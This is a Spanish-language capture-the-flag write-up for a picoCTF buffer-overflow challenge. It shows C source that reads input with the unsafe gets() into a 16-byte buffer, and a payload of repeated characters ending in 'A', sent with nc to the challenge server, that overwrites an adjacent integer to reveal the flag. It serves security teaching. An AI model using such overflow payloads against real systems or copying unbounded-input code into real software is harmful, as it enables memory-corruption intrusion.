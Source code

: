 El ejercicio nos proporciona un binario y su correspondiente código fuente.

Si ejecutamos el binario, observamos que solicita una cadena de texto y nos informa que `num = 64`:

```bash
./local-target
Enter a string: hola

num is 64
Bye!
```

En el código fuente, podemos identificar la parte clave donde ocurre todo:

```c
int main(){
  FILE *fptr;
  char c;

  char input[16]; // Input: una cadena de 16 caracteres
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);  // GETS: función peligrosa
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){   // Si num es 65, imprime la flag
    printf("You win!\n");
    fflush(stdout);
    // Abrir archivo
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }
```

Podemos intentar realizar un *buffer overflow* para sobrescribir la variable `num` gracias al uso de `gets(input);`, una función notoriamente insegura.

Como el objetivo es cambiar `num` a 65 y esta variable es de tipo `int`, podemos intentar alcanzarla en la memoria usando un *payload* como `555555555555` seguido de una `A`, ya que la letra mayúscula `A` en ASCII equivale a 65.

Tanteando el *offset* hasta la variable, descubrimos que el siguiente *payload* logra el cometido:

```bash
nc saturn.picoctf.net 56595
Enter a string: 555555555555555555555555A

num is 65
You win!
picoCTF{SECRET}
```

¡Tenemos la flag!
